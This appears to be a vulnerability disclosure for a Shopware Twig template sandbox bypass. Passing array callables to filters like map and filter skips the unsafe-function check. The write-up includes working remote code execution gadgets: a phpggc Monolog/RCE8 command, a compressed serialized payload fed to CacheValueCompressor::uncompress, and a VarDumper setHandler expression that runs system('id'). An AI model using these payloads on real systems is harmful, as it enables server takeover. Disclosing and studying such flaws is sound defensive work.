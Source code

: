 this vulnerability lies in the usage of functions and filters that are not specifically verified, allowing the possibility of utilizing unsafe or dangerous PHP functions if the values come from untrusted user input. This can lead to the execution of insecure or malicious code within applications that utilize this class. To address this vulnerability, proper validation and sanitization of the values received by these functions should be implemented, or alternative, more secure methods of manipulating data within Twig templates should be used.

A common mistake that developers make is assuming that the callable type refers to a string type. This is untrue, and it is well documented in the PHP Manual:

A method of an instantiated object is passed as an array containing an object at index 0 and the method name at index 1. Accessing protected and private methods from within a class is allowed. Static class methods can also be passed without instantiating an object of that class by either, passing the class name instead of an object at index 0, or passing ClassName::methodName.

This means that all of the following variable function calls are valid:

Going back to [1], if $arrow is an array instead of a string or closure, the validation check to prevent invocation of unsafe functions is completely skipped. Multiple static class methods within Shopware’s codebase and its dependencies were found to be suitable gadgets for achieving for remote code execution:

#### Gadget 1: 
Using `\Shopware\Core\Framework\Adapter\Cache\CacheValueCompressor::uncompress()` to invoke unserialize()
Serialized payload generated using the phpggc tool: 
```bash
./phpggc -b Monolog/RCE8 system 'id'
```

Compressed payload is generated using:

```bsh
$ php -r 'echo gzcompress(shell_exec("php phpggc Monolog/RCE8 system id"));' | hexdump -v -e '"\\\x" 1/1 "%02X"'
```

```
["\x78\x9C\x65\x90\x4D\x4F\xC3\x30\x0C\x86\x77\xE6\x67\xF8\xC8\xA9\x49\x61\x30\xE7\x86\x86\xE0\x50\x34\x09\xAE\x93\xA6\x7E\x78\xC5\x53\xDA\x4C\x49\x3A\xF1\xA1\xFE\x77\x92\x06\x8D\xA2\xDD\xEC\xF7\x8D\x5F\x3F\xCE\x06\xE5\x3D\xC2\x8B\xE9\x8D\x36\xED\xF6\xB9\xEC\x1B\x4D\x76\xFB\x64\xCD\x70\xFC\x6D\x00\x05\x7E\x3B\x14\x02\x61\x71\xBD\x78\x4F\xA2\x03\x55\x46\x9D\x31\x53\x1B\x94\xAB\xCB\x88\x87\x61\xBF\x27\x7B\xCE\x58\x4E\x19\xD9\x3C\x03\x94\xC5\x5C\x05\x35\x9F\xD4\x6A\x1A\x78\xE3\x2F\x02\xC5\x28\xA2\x71\x33\x33\x0A\xEE\xD8\x47\x27\x0B\xCE\x6A\x66\xFC\x23\x11\x77\x7F\x24\x85\x69\x5F\xA9\x36\xB6\x01\x94\x71\xFB\x2D\x82\xA6\x13\x69\x50\x8F\x28\x66\xC4\x45\x14\x71\x4D\xD5\xD0\x82\x9A\x9E\x75\xFC\x41\x4D\xAC\x25\x02\x87\x62\x1C\xCF\x30\xDC\xB3\xE7\x52\x07\xCA\xA0\x57\x09\x33\xF1\x1F\xAD\xA9\xC9\x39\x93\xFE\x26\x4F\x44\xC1\x0D\x79\x2D\xF9\x9D\xA9\x0E\x54\xFB\xDD\xA9\x8C\x7E\xBA\x2F\xCC\x51\xDF\xC4\x4E\x86\x6E\x89\xE0\x3E\x9D\xA7\x2E\xEE\x1B\xC7\xAB\x1F\x89\x25\x7F\x63"] | map(['\\Shopware\\Core\\Framework\\Adapter\\Cache\\CacheValueCompressor', 'uncompress']) | length
```

#### Gadget 2: 
Using `\Symfony\Component\VarDumper\Vardumper::setHandler()` and `\Symfony\Component\VarDumper\Vardumper::dump()` to invoke `system("id")`:

```
['system'] | filter(['\\Symfony\\Component\\VarDumper\\VarDumper', 'setHandler']) | length
```
